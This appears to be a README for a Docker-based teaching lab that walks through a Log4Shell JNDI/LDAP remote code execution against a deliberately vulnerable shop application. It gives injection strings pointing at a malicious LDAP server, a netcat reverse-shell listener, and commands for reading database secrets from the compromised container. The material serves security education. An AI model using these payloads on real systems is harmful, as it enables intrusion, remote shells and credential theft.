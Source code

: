 ## Starting up the exploit

Run, in this order, the following commands : 

```bash
docker compose up -d database       # wait for the database to spinup
docker compose up application       # before launching application.
docker compose up snoopy-http-server
docker compose up snoopy-ldap-server
```

Connect to `http://localhost:8080` to access the biscuits shop frontend. 

Do the RCE via `${jndi:ldap://snoopy-ldap-server:1389/a}` 
Connect database container from shell via `mysql -h 127.0.0.1 -P 3306 -u root -p biscuits`
Query the spring LDAP authentication server via `ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"`
Query the malicious LDAP server via `ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"`
Access the malicious http server at `http://localhost:8000`

### Remote Shell Exploit

Startup a netcat server to listen for an incoming TCP remote shell connection `docker compose run --name snoopy-netcat-listener snoopy-netcat-listener` and inject `${jndi:ldap://snoopy-ldap-server:1389/ExploitRCE}` once pwned,
you can get .env values via, 
```
echo $MYSQL_HOST
mysql-database
echo $MYSQL_ROOT_PASSWORD 
secret
```

IT IS ESSENTIAL TO NOT USE DOCKER COMPOSE UP SNOOPY-NETCAT-LISTENER, see [this SO thread](https://stackoverflow.com/questions/36249744/interactive-shell-using-docker-compose).

Dependencies : 

Working install of docker and docker compose. 
